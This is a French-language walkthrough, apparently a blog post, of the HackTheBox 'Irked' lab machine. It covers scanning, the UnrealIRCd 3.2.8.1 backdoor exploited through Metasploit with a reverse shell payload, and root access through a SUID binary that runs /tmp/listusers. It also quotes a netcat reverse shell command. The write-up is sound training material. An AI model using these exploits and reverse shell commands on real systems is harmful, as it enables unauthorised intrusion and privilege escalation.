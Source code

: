 ```yaml
---
title: "Solution du CTF Irked de HackTheBox"
tags: [CTF, HackTheBox]
---
```


Fast
----

*Irked* est un CTF proposé par *MrAgent* sur *HackTheBox*.  

Platforme Linux et difficulté facile (20 points), c'est parti !  

La machine dispose de ports ouverts classiques mais aussi certains en rapport avec IRC :  

```
Nmap scan report for 10.10.10.117
Host is up (0.029s latency).
Not shown: 65513 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
111/tcp   open     rpcbind
142/tcp   filtered bl-idm
2092/tcp  filtered descent3
3663/tcp  filtered dtp
6697/tcp  open     ircs-u
7634/tcp  filtered hddtemp
8067/tcp  open     infi-async
8512/tcp  filtered unknown
10572/tcp filtered unknown
15124/tcp filtered unknown
16477/tcp filtered unknown
22681/tcp filtered unknown
29675/tcp filtered unknown
29926/tcp filtered unknown
46360/tcp filtered unknown
48368/tcp filtered unknown
48810/tcp filtered unknown
49419/tcp open     unknown
52182/tcp filtered unknown
65534/tcp open     unknown
```

Le serveur web ne retournant rien d'intéressant c'est le moment de lancer le client IRC XChat pour voir ce que l'on trouve :  

```
* *** Looking up your hostname...
* *** Couldn't resolve your hostname; using your IP address instead
* You have not registered
* Welcome to the ROXnet IRC Network devloop!devloop@10.10.13.166
* Your host is irked.htb, running version Unreal3.2.8.1
* This server was created Mon May 14 2018 at 13:12:50 EDT
* irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
* UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 :are supported by this server
* WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=ROXnet CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ :are supported by this server
* EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP :are supported by this server
* There are 1 users and 2 invisible on 1 servers
* I have 3 clients and 0 servers
* Current Local Users: 3  Max: 3
* Current Global Users: 3  Max: 3
* MOTD File is missing
* devloop active le mode +i devloop
* devloop active le mode +w devloop
* devloop active le mode +x devloop
```

On voit ici que le serveur IRCd est un Unread en version 3.2.8.1, bien connu pour inclure une backdoor ([voir solution du CTF Relativity]({% link _posts/2014-03-04-Solution-du-CTF-Relativity-de-VulnHub.md %})).  

*Metasploit* dispose d'un module pour cette vulnérabilité, il suffit juste de tester quelques payloads pour en trouver un fonctionnel :  

```
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  10.10.10.117     yes       The target address
   RPORT  6697             yes       The target port (TCP)

Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.13.166     yes       The listen address (an interface may be specified)
   LPORT  80               yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP handler on 10.10.13.166:80
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Command shell session 1 opened (10.10.13.166:80 -> 10.10.10.117:33984) at 2019-02-03 12:07:42 +0100

id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

Le système est un Debian 32 bits (*Linux irked 3.16.0-6-686-pae #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08) i686 GNU/Linux*).  

Il y a un utilisateur qui possède le flag *user.txt* :  

```
1061877    4 drwxr-xr-x  18 djmardov djmardov     4096 Nov  3 04:40 /home/djmardov
1177472    4 drwx------   3 djmardov djmardov     4096 May 11  2018 /home/djmardov/.dbus
1061885    4 -rw-r--r--   1 djmardov djmardov      675 May 11  2018 /home/djmardov/.profile
1062684    0 lrwxrwxrwx   1 root     root            9 Nov  3 04:26 /home/djmardov/.bash_history -> /dev/null
1177702    4 drwx------   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/.ssh
1061894    4 drwxr-xr-x   2 djmardov djmardov     4096 May 14  2018 /home/djmardov/Downloads
1177456    4 drwxr-xr-x   2 djmardov djmardov     4096 May 15  2018 /home/djmardov/Documents
1177813    4 -rw-------   1 djmardov djmardov       33 May 15  2018 /home/djmardov/Documents/user.txt
1177807    4 -rw-r--r--   1 djmardov djmardov       52 May 16  2018 /home/djmardov/Documents/.backup
1177703    4 drwx------   2 djmardov djmardov     4096 May 15  2018 /home/djmardov/.gnupg
1061893    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Desktop
1177523    4 drwx------  13 djmardov djmardov     4096 May 15  2018 /home/djmardov/.cache
1177487    4 drwx------   3 djmardov djmardov     4096 Nov  3 04:40 /home/djmardov/.gconf
1177477    4 drwx------   3 djmardov djmardov     4096 May 11  2018 /home/djmardov/.local
1061897    8 -rw-------   1 djmardov djmardov     4706 Nov  3 04:40 /home/djmardov/.ICEauthority
1177457    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Music
1177455    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Public
1177467    4 drwx------  15 djmardov djmardov     4096 May 15  2018 /home/djmardov/.config
1061886    4 -rw-r--r--   1 djmardov djmardov      220 May 11  2018 /home/djmardov/.bash_logout
1061887    4 -rw-r--r--   1 djmardov djmardov     3515 May 11  2018 /home/djmardov/.bashrc
1177466    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Videos
1177458    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Pictures
1061895    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Templates
1177582    4 drwx------   4 djmardov djmardov     4096 May 11  2018 /home/djmardov/.mozilla
```

Le fichier *Documents/.backup* contient un mot de passe avec un indice laissant supposer qu'il faut utiliser un logiciel de stéganographie quelconque... pas trop envie XD  

And furious
-----------

Le fichier `/home/ircd/.bash_history` semble contenir des commandes de plus fort intérêt :  

```bash
echo '#!/bin/sh' > who
echo 'nc 10.10.13.255 4445 -e /bin/sh' >> who
chmod +x who
./who
/usr/bin/viewuser
su
su Kab6h+m+bbp2J
su
viewuser
exit
```

Malheureusement ce qui semble être un mot de passe ne semble pas permettre un accès SSH ni de passer root via *su* :(  

Le binaire *viewuser* semble être le chemin tout tracé :  

```
-rwsr-xr-x 1 root root 7328 May 16  2018 /usr/bin/viewuser
```

Une fois ce binaire récupéré on l'ouvre dans *Cutter* pour voir le *main()* :  

![HackTheBox Irked CTF viewuser disassembly in Cutter](/assets/img/htb/irked_viewuser_main.png)

Et parmi les chaînes de caractères présentes dans le programme on voit */tmp/listusers* qui n'existe pas...  

```
ircd@irked:/var/www/html$ cp /bin/dash /tmp/listusers
ircd@irked:/var/www/html$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-02-03 08:08 (:0)
djmardov pts/2        2019-02-03 08:10 (10.10.14.226)
djmardov pts/0        2019-02-03 08:24 (10.10.14.13)
djmardov pts/8        2019-02-03 08:44 (10.10.12.244)
djmardov pts/10       2019-02-03 08:50 (10.10.15.100)
# id
uid=0(root) gid=1001(ircd) groups=1001(ircd)
# cd /root
# ls
pass.txt  root.txt
# cat root.txt
8d8e9e8 -- snip --22daf3
```


*Published April 27 2019 at 17:44*
